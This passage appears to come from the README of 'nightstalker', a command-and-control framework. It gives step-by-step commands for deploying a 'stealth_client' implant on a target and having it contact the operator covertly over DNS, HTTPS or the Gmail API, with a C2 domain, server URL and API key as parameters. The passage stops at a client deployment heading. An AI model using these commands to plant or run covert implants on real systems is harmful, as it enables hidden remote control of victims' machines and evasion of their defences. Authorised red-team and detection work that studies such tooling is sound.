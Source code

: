 ### 3. Deploy Client

```bash
python -m nightstalker.c2.stealth_client \
  --target-id TARGET001 \
  --channel dns \
  --domain c2.example.com
```

## 🔒 HTTPS Server Setup

### 1. Server Requirements

- Web server (Apache/Nginx)
- SSL certificate
- API endpoint

### 2. Setup C2 Server

```bash
nightstalker c2 deploy
# Select option 4 (HTTPS)
# Enter server URL and API key
```

### 3. Deploy Client

```bash
python -m nightstalker.c2.stealth_client \
  --target-id TARGET001 \
  --channel https \
  --server-url https://your-server.com \
  --api-key YOUR_API_KEY
```

## 📧 Gmail API Setup

### 1. Google Cloud Setup

1. Create Google Cloud project
2. Enable Gmail API
3. Create OAuth 2.0 credentials
4. Download credentials file

### 2. Setup C2 Server

```bash
nightstalker c2 deploy
# Select option 5 (Gmail)
# Enter credentials file path
```

### 3. Deploy Client
